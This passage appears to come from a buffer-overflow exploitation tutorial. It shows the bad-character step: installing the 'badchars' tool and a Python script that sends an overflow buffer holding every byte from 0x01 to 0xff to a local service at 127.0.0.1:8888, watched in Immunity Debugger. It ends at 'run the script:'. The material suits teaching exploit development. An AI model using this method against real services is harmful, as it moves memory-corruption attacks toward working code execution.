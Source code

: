 > For the generation of the characters, the badchars utility of python was used

> Installation: pip install badchars

```
badchars -f python
```

Modify the script, add all possible characters in hexadecimal format to a badchars variable and send it in place of the shell code placeholder:

```
#!/usr/bin/python3
import socket

badchars=(
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = b"A" * 1052 + b"B" * 4 + badchars + b"C"*100

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888))

s.send(buffer)
```

Restart the application, reattach Immunity Debugger, and run the script:
